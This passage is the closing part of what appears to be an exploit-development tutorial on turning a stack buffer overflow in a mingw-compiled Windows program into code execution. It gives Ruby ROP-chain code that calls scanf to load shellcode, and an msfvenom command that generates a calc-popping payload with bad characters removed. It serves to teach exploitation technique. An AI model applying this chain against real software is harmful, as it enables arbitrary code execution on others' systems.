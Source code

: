 ```ruby
part2 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = 0x401000
part2 += [ 0x00402bc0, 0x404000, jmp_scanf, 0x00401000 ] # set rcx = address of "%s"; scanf(rcx="%s",rdx=0x401000); return to 0x401000
```
### <span id='764f11b4fe208f39ad6e2c9506d74e81'>Part3 - Final shellcode</span>

Great! now, we can run any shellcode we want, the only constraint is that it must not contain whitespace characters (because scanf will stop reading input if it encounters such characters).

Let's just generate a shellcode that pops the Windows calculator with msfvenom (part of Metasploit Framework), ``-b`` stands for bad chars, an encoder will be used to avoid these whitespace characters.


```shell
msfvenom -p windows/x64/exec CMD=calc.exe -f ruby -b "\x09\x0a\x0b\x0c\x0d\x20"
```

### <span id='b58f0e8ffb4d58f703a8c690da538bc7'>Putting it all together</span>

The full exploit script is available [here](/files/when_exploit_mitigations_are_disabled_on_modern_systems/exploit.rb).

[![Pop Calculator](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110452/when_exploit_mitigations_are_disabled_on_modern_systems/pop_calc_inbcqn.gif)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110452/when_exploit_mitigations_are_disabled_on_modern_systems/pop_calc_inbcqn.gif)


# <span id='6f8b794f3246b0c1e1780bb4d4d5dc53'>Conclusion</span>

In the exploit, we have mostly used gadgets that should be present in every executable compiled with ``mingw-gcc``, the only gadgets specific to this executable are the ones reading input (using ``scanf`` function), while programs differ in the way they read input, almost any stack buffer overflow can be turned into arbitary code execution using an approach similar to the one explained in this article.
